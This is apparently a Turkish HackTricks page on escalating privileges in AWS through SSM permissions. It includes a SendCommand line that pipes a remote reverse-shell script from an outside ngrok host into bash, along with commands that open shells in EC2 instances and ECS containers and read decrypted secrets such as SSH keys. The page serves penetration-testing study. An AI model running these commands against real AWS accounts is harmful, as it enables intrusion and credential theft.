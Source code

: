 # AWS - SSM Yetki Yükseltme

<details>

<summary><strong>Sıfırdan kahraman olana kadar AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## SSM

SSM hakkında daha fazla bilgi için şuraya bakın:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** iznine sahip bir saldırgan, Amazon SSM Agent çalıştıran örneklerde **komutları yürütebilir** ve içinde çalışan IAM Rolünü **kompromize edebilir**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Eğer zaten ele geçirilmiş bir EC2 örneği içinde ayrıcalıkları yükseltmek için bu tekniği kullanıyorsanız, rev shell'i yerel olarak yakalayabilirsiniz:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potansiyel Etki:** Çalışan Amazon SSM Ajanlarına sahip EC2 IAM rollerine doğrudan ayrıcalık yükseltme.

### `ssm:StartSession`

İzin **`ssm:StartSession`** olan bir saldırgan, Amazon SSM Ajanı çalıştıran örneklerde **SSH benzeri bir oturum başlatabilir** ve içinde çalışan IAM Rolünü **kompromize edebilir**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Oturum başlatmak için **SessionManagerPlugin**'in yüklü olması gerekmektedir: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potansiyel Etki:** Çalışan örneklerle ilişkilendirilmiş EC2 IAM rollerine doğrudan ayrıcalık yükseltme.

#### ECS Üzerinden Ayrıcalık Yükseltme

**ECS görevleri** **`ExecuteCommand` etkin** olduğunda, yeterli izinlere sahip kullanıcılar `ecs execute-command` kullanarak bir komutu konteyner içinde çalıştırabilir.\
[**Belgelendirmeye**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) göre, bu, "exec" komutunu başlatmak için kullandığınız cihaz ile SSM Oturum Yöneticisi'ne sahip hedef konteyner arasında güvenli bir kanal oluşturularak gerçekleştirilir. (Bu işlem için SSM Oturum Yöneticisi Eklentisi gereklidir)\
Bu nedenle, `ssm:StartSession` iznine sahip kullanıcılar, bu seçenek etkin olduğunda ECS görevlerinin içinde bir kabuk alabilirler, sadece şu komutu çalıştırarak:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potansiyel Etki:** `ExecuteCommand` özelliğine sahip çalışan görevlere bağlı `ECS` IAM rollerine doğrudan ayrıcalık yükseltme.

### `ssm:ResumeSession`

İzinlere sahip bir saldırgan, Amazon SSM Ajanı çalıştıran örneklerde **bağlantısı kesilmiş** bir SSM oturum durumunda bir SSH benzeri oturumu **yeniden başlatabilir** ve içinde çalışan IAM Rolünü **kompromize edebilir**.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potansiyel Etki:** Çalışan örneklerle ilişkilendirilmiş EC2 IAM rollerine doğrudan ayrıcalık yükseltme ve SSM Ajanları çalışırken ve oturumlar kesilmişken.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Söz konusu izinlere sahip bir saldırgan, **SSM parametrelerini listeleyebilecek** ve **açık metin olarak okuyabilecektir**. Bu parametreler arasında sık ​​sık SSH anahtarları veya API anahtarları gibi **duyarlı bilgiler** bulunabilir.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potansiyel Etki:** Parametrelerin içinde hassas bilgiler bulunabilir.

### `ssm:ListCommands`

Bu izne sahip bir saldırgan tüm gönderilen **komutları** listeleyebilir ve umarım bunlarda **hassas bilgiler** bulabilir.
```
aws ssm list-commands
```
**Potansiyel Etki:** Komut satırlarında hassas bilgiler bulunabilir.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Bu izinlere sahip bir saldırgan, gönderilen tüm **komutları** listeleyebilir ve umarım **hassas bilgileri** içeren çıktıları okuyabilir.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potansiyel Etki:** Komut satırlarının çıktısı içinde hassas bilgiler bulunabilir.

### Codebuild

Ayrıca SSM'yi kullanarak derlenmekte olan bir codebuild projesine girebilirsiniz:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Sıfırdan kahraman olana kadar AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
